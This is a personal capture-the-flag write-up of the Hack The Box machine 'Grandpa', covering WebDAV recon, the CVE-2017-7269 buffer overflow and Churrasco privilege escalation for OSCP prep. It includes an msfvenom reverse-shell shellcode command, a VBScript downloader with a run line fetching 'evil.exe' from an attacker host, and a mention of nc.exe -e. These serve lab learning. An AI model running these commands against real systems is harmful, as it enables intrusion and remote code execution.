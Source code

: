 
Name: Grandpa
Date:  5/11/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- Old HTB boxes are weird
- I am sick weird old boxes  
- Need I pause too frantic
- XP go for vb script
- VM for Python2 feels bad before hand and then it feels great

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Grandpa/Screenshots/ping.png)

[[CVE-2000-0114-http___10.129.95.233__vti_inf.html]] is 0 in severity, but 
[[CVE-2017-7269-http___10.129.95.233]] is critical RCE 9.5! for a buffer overflow, which there is a metasploit exploit for [https://www.exploit-db.com/exploits/41992](https://www.exploit-db.com/exploits/41992). There is also an 
[Explaination](https://www.exploit-db.com/exploits/8704) for a Remote Authenication Bypass allowing unrestricted listing downloading and uploading of files into password protected WebDAV folder. The 8806.pl did seem to work and neither did adding `%c0%af` into `curl`'s against `/images/` and  `/_Private/`. 

![](searchsploitoutput.png )

I tried for serval hours over multiple months for this box, but I do not have the time to let learning fall by the wayside. Returning to this knowing it require authenicated bypassing 

![](webdav.png)

## Exploit

Headturning I thought about making this a Helpthrough with IT security, but
[Explodingcan](https://github.com/danigargu/explodingcan) was an options I remember, as I though about following along I decide to be the most OSCP about this and do this entirely with the python2 exploit. I had already had that written above and found and was a option. Emotionally I was frantic and am still abit for various reasons of due to the [[Granny-Helped-Through]].

I wanted ot use do bothmeterpreter and the shell version and privilege escalation on windows XP does bananas time wise. But I have been burnt really hard for time and stressing about myself that its sort of me, but it is also these boxes. 
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.109 LPORT=80 > shellcode-met
```

```bash 
Traceback (most recent call last):
  File "41738.py", line 43, in <module>
    data = sock.recv(80960)
socket.error: [Errno 104] Connection reset by peer
```
Apparently
*Connection reset by peer" is the TCP/IP equivalent of slamming the phone back on the hook. It's more polite than merely not replying, leaving one hanging. But it's not the FIN-ACK expected of the truly polite TCP/IP converseur."*

The hellscape of python:
https://python.readthedocs.io/en/v2.7.2/library/httplib.html is renameed to http.client, 

I got a shell on the box, but I know would I run into the same issues, but I got metasploit issues. I know the metasploit exploit works, just not the privesc. I will finish this later a bit more calmly.

## Foothold && PrivEsc   

![](wmpubperm.png)
[0xdf](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html) also struggled and used [Churrasco](https://github.com/Re4son/Churrasco/)

## Windows-File-transferVBS-script
XP and 2003 lifesaver, from the OSCP course
BEWARE: "If creating on Linux and then transfer to windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

![](churrasco.png)

I tried the same nc.exe -e, because I have also never actually done that from Windows

![](system.png)